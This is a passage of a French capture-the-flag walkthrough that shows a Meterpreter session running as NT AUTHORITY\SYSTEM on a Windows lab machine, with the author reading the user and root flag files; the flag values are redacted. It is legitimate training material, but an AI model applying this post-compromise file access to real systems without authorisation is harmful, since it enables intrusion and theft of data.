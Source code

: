 Parfait ! Nous avons obtenu une session Meterpreter. Vérifions l'utilisateur :

```bash
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

La session Meterpreter s'exécute sous `NT AUTHORITY\SYSTEM`, l'utilisateur le plus privilégié sur Windows. Nous avons donc un contrôle total de la cible.

### Drapeaux

À présent que nous avons l'accès, récupérons les flags.

```bash
meterpreter > pwd
C:\Windows\system32
meterpreter > cd /
meterpreter > cd Users\\haris\\Desktop\\
meterpreter > ls
Listing: C:\Users\haris\Desktop
===============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2017-07-15 09:58:32 +0200  desktop.ini
100444/r--r--r--  34    fil   2025-08-18 17:26:29 +0200  user.txt

meterpreter > cat user.txt
[redacted]

meterpreter > cd /
meterpreter > cd Users\\Administrator\\Desktop\\
meterpreter > ls
Listing: C:\Users\Administrator\Desktop
=======================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2017-07-21 08:56:40 +0200  desktop.ini
100444/r--r--r--  34    fil   2025-08-18 17:26:29 +0200  root.txt

meterpreter > cat root.txt
[redacted]
```

**Réponses :**

- **user.txt → `[redacted]`**
- **root.txt → `[redacted]`**
